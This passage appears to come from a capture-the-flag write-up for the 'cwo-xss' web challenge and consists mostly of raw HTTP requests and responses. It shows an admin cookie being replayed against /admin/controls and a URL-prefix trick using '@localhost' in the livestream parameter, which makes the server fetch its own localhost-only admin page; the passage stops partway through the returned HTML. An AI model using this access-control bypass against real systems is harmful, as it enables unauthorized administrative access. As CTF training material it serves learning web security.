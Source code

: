 

```
GET /admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com
Cookie: auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz


```

```
HTTP/1.1 403 FORBIDDEN
Date: Sun, 23 Jun 2019 11:55:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 37
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

Requests only accepted from 127.0.0.1
```

`/watch?livestream=...` requires the argument to begin with `http://cwo-xss.web.ctfcompetition.com`:

```
GET /watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 200 OK
Date: Sun, 23 Jun 2019 11:57:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1529
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>CWO Network</title>
    <link rel="stylesheet" href="/static/css/main.css">
    <link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
    <script src="/static/js/main.js"></script>
    <script src="/static/js/admin.js"></script>
  </head>
  <body>
    <div class="top-bar">
      <div class="top-bar-container">
        <div class="top-bar-logo">
          CWO
        </div>
      </div>
    </div>
    <div class="admin-wrapper">
      <div class="admin-side-nav">
        <a href="/admin/users">
          <div class="admin-side-item">
            Users
          </div>
        </a>
        <a href="/admin/livestreams">
```